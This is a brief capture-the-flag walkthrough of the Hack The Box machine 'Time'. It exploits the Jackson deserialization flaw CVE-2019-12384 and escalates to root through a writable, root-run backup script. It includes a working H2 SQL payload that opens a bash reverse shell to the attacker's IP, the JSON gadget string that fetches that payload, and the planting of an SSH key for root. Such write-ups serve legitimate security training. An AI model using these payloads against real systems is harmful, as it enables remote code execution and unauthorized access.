

Time is a Linux machine. The ip of the box is 10.10.10.214.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/time 10.10.10.214`


And i found:
- *ssh*
- *webserver apache*

On the webserver there is a beautifier and validator


So i tried some input and got a error message for valiadator


>Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token ' ': was expecting ('true', 'false' or 'null')


A this point i search for  some CVE for `jackson` and found the CVE-2019-12384 and a [blog post](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).

# User
A this point i created the following `inject.sql` file:
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.86/9090 0>&1')
```
and send this string for validation in webpage

>[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.86:8000/inject.sql'\"}]


and got the rev shell as user `pericles`


and got user flag


# Root

For root i run `linpeash` and found the script `timer_backup.sh`


this script is executed by root periodically and i can write this file.
So i added the pubkey in `/root/.ssh/authorized_keys` 


and can log as `root` with ssh 


and take the root flag



